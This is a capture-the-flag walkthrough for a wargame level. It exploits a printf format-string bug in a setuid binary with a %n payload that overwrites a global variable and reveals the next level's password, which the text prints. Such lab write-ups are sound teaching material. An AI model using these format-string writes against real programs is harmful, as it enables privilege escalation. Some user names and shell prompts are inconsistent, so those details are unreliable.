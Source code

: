 # Rainfall Level 4 Guide
This guide will walk you through the process of finding the password for the `level3` user.

## 1. Examine your environment
   
`id` : Shows user and group identities that you have.
```bash
uid=2025(level4) gid=2025(level4) groups=2025(level4),100(users)
```
`pwd` : Displays the current directory you are in.
```bash
/home/user/level4
```
`ls -la` : Lists files and their permissions in the current directory.
```bash
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
```

We can see that the `level4` binary has the `setuid` bit set, which means that it runs with the permissions of the owner of the file. In this case, the owner is `level5`. It executable by the `users` group, our current group.

We execute the binary to see what it does. It waiting for an input, print it after pressing enter, and quit.

```bash
level4@RainFall:~$ ./level4
test
test
level4@RainFall:~$ ./level4
abc
abc
```

## 2. Reverse engineering

We will use Ghidra to reverse engineer the binary.
You can find the analysis in [Ressources/ghidra_analyse_level4.c](Ressources/ghidra_analyse_level4.c), and the reconstructed C code in [source.c](source.c).

## 3. Analysis

We find a main function that calls a function `n()`.
```c
int	n(void)
{
	char	local_20c[512];

	fgets(local_20c, 512, stdin);
	p(local_20c);
	if (m == 16930116)
		system("/bin/cat /home/user/level5/.pass");
	return(0);
}
```
The `n()` function reads a line from `stdin` into the buffer `local_20c` with `fgets()`.
The buffer 'local_20c' has a size of 512 bytes.
After reading the input, it calls the function `p()` with the buffer as an argument. The `p()` function prints the buffer with `printf()`.
After that, it checks if the variable `m` is equal to `16930116`. If it is, it will execute the command `system("/bin/cat /home/user/level5/.pass")`.
The variable `m` is a global variable that is set to `0` at the beginning of the program.

## 4. Find the address of the `m` variable

We will use GDB to find the address of the `m` variable.
```bash
gdb ./level4
```
```bash
(gdb) break main
Breakpoint 1 at 0x80484aa
(gdb) run
Starting program: /home/user/level4/level4 

Breakpoint 1, 0x080484aa in main ()
(gdb) info variables
All defined variables:

Non-debugging symbols:
...
0x0804980c  dtor_idx.6161
0x08049810  m
0xb7ffeca0  _rtld_global_ro
...
```
The address of the `m` variable is `0x08049810`.

## 5. Exploitation

We will use the `printf()` function to write the value `16930116` to the address of the `m` variable.
You can find more information about the `printf()` function in the [Vulnerabilities found in Rainfall](../README.md#printf) section.

### 5.1 Find the position of the input on the stack

We will identify the position of our input on the stack by using the `%x` format specifier.
```bash
python -c 'print "aaaa" + " %x" * 10' > /tmp/exploit
cat /tmp/exploit | ./level4
```
Return:
```bash
aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0
```
`aaaa` is the string "aaaa". `aaaa` is `61616161` in hexadecimal. We don't see `61616161` in the return. So we will increase the number of `%x` to find the position of our input.
```bash
python -c 'print "aaaa" + " %x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
Return:
```bash
aaaa b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078
```
We can see that `61616161` is at the 12th position on the stack. So when we use our binary using `printf`, we can write to the 12th argument on the stack.

### 5.2 Write the `m` address to the 12th argument

We will write the address of the `m` variable to the 12th argument on the stack.
The address of the `m` variable is `0x08049810` (`\x10\x98\x04\x08` in little-endian).
```bash
python -c 'print "\x10\x98\x04\x08" + " %x" * 15' > /tmp/exploit
cat /tmp/exploit | ./level4
```
Return:
```bash
b7ff26b0 bffff784 b7fd0ff4 0 0 bffff748 804848d bffff540 200 b7fd1ac0 b7ff37d0 8049810 20782520 25207825 78252078
```
We can see that the address `0x08049810` is at the 12th position on the stack.

### 5.3 Write the value `16930116` to the address of the `m` variable

We will used the `%n` format specifier to write the number of characters written by `printf()` to the address `0x08049810`, pointed by the 12th argument. We want to write the value `16930116`. So we will write `16930116` characters before the `%n` format specifier. "\x10\x98\x04\x08" has 4 characters. So we will write `16930112` additionnals characters.

We will used the `%d` format specifier to print the decimal value of the argument. `%200d` is used to print a decimal value with a width of 200 characters. We will write `16930112` characters before the `%n` format specifier. So we will use `%16930112d`.

`%12$n` allow to write the number of characters written by `printf()` to the address pointed by the 12th argument.

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit
cat /tmp/exploit | ./level4
```
This displays lots of spaces, because `%XXd` print `XX` spaces. After displaying the spaces, the program checks the value of `m`. Now, the value of `m` is `16930116`.
So the program executes the command `system("/bin/cat /home/user/level5/.pass")`.

At the end of the execution, we can see the password for the `level5` user.

```bash
0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a
```

Congratulations!
We can now connect to the `level5` user with this password.
```bash
level2@RainFall:~$ su level5
Password:
level3@RainFall:~$
```